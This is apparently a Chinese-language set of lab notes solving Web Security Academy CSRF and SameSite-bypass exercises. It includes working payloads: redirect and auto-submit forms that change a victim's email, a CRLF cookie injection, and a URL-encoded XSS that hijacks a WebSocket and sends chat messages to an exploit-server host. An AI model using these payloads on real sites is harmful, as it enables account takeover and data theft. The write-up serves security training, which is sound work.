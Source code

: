# 令牌验证取决于请求方法的 CSRF
有的时候，csrftoken只针对post请求，我们把请求变成get，并且把无法确认实际值的参数（csrftoken）删掉，然后构造csrf poc，从而绕过csrf token


# 令牌验证取决于令牌存在的 CSRF
直接删掉csrftoken就可以，但是修改令牌值不行
，也就是不传csrftoken就能绕过

# 令牌未绑定到用户会话的 CSRF
这里主要是使用自己的csrftoken（在还没发给服务端的情况下）来修改别人的请求

# 令牌与非会话 Cookie 绑定的 CSRF（没成功）
cookie中的csrfkey与csrftoken绑定，但是csrf可以不属于会话cookie，于是我可以使用我的csrfkey和我的csrftoken去对别人进行csrf攻击，这里我们发现搜索功能会把用户输入字段插入到cookie里面
Set-Cookie: LastSearchTerm=xxx; Secure; HttpOnly
我们使用crlf攻击，设置受害者的csrfkey（setcookie响应中有两个的话后代替前，没有字段的话会合体）

# 令牌在 cookie 中重复的 CSRF
用上面的方法同时提交自己的csrftoken就行，在cookie中

# 绕过samesite=lax
`GET /my-account/change-email?email=test5%40qq.com&_method=POST HTTP/2`

# 通过客户端重定向绕过 SameSite Strict
```
通过分析外部重定向js构造payload
https://0a4c002c0334df45805067e200e50046.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test1%40qq.com%26submit=1
```
请注意，您需要包含 submit 参数和 URL 编码 & 分隔符，以避免在初始设置请求中中断 postId 参数。如果直接在 URL 中使用 & 分隔符，可能会导致解析错误，认为 postId 的值结束了，后面的内容被误认为是新的参数。
最终payload
```
<html>
<script>document.location="https://0a4c002c0334df45805067e200e50046.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test1%40qq.com%26submit=1"
;</script>
</html>
```

# SameSite 通过同级域严格绕过(csrf+xss+cswsh)
思路，发现websocket没有csrftoken，分析建立websocket的js，可劫持，由于semesite=strict，寻找xss（从响应头发现个url）
## 最终payload

```
<script>
document.location="https://cms-0a1c00870337a02e81195c01008f00dd.web-security-academy.net/login?username=xxxxxx%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%31%63%30%30%38%37%30%33%33%37%61%30%32%65%38%31%31%39%35%63%30%31%30%30%38%66%30%30%64%64%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%7d%0a%0a%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%35%35%30%30%31%31%30%33%66%38%61%30%62%61%38%31%32%30%35%62%32%31%30%31%31%33%30%30%66%35%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%3f%6d%73%67%3d%22%2b%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=";
</script>
```
# SameSite Lax bypass via cookie refresh
主要是解决cookie会过期问题，因为无法保证什么时候钓到鱼
最终poc
`<html>`
  `<!-- CSRF PoC - generated by Burp Suite Professional -->`
  `<body>`
    `<form action="https://0a2300450319056d826956490017004c.web-security-academy.net/my-account/change-email" method="POST">`
      `<input type="hidden" name="email" value="victem1&#64;gmail&#46;com" />`
      `<input type="submit" value="Submit request" />`
    `</form>`
    `<script>`
  `window.onclick = () => {`
    `window.open("https://0a2300450319056d826956490017004c.web-security-academy.net/social-login", "_blank");`
    `setTimeout(change_email, 3000);`
  `}`

      `function change_email() {`
    `document.forms[0].submit();`  
  `}`
    `</script>`
  `</body>`
`</html>`
